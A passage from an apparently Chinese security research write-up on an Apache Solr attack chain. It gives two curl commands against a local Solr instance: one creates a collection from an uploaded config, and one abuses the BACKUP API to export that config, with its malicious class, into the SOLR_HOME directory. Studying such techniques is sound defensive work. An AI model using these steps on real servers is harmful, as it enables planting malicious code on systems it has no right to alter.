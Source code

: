 [![](assets/1708941329-9cc3cfbf32ca8fe1b418a5836f0add40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210224842-7c029efc-c823-1.png)

### 用`conf1`创建`collection1`

用上一步上传的配置`conf1`去创建一个 Collection，名为`collection1`

```bash
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=collection1&numShards=1&replicationFactor=1&wt=json&collection.configName=conf1"
```

[![](assets/1708941329-45b41e2a33da078d55d0e3cda081ad96.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210224850-8110acfe-c823-1.png)

### 备份`collection1`，导出`conf1`

通过备份功能可以将`collection1`导出，其中包括创建`collection1`时用的配置文件，也就是`conf1`，从而恶意 class 也随之导出。

以下 API 中`location`为要导出的路径，`/var/solr/data/`是`SOLR_HOME`的路径。`name`为导出的名字，其实也就相当于路径的一部分

```bash
curl "http://127.0.0.1:8983/solr/admin/collections?action=BACKUP&collection=collection1&location=/var/solr/data/&name=collection2_shard1_replica_n1"
```

[![](assets/1708941329-5a402bb19ffdb768b125b5cbcba09f9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210224858-858d20b4-c823-1.png)
